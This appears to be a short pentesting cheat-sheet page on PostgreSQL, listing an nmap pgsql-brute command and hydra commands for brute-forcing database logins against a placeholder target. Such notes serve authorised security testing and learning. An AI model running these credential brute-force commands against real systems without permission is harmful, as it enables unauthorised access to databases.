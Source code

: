 ```yaml
---
title: PostgreSQL Pentesting
desc: Default port is 5432.
tags: [5432, Database, Hydra, Nmap, Postgres, SQL]
alts: []
render_with_liquid: false
---
```


## Enumeration

1. **Use Nmap**

    ```sh
    nmap --script pgsql-brute -p 5432 <target-ip>
    ```

2. **Brute Force Credentials**

    ```sh
    hydra -l username -P passwords.txt <target-ip> postgres
    hydra -L usernames.txt -p password <target-ip> postgres
    ```
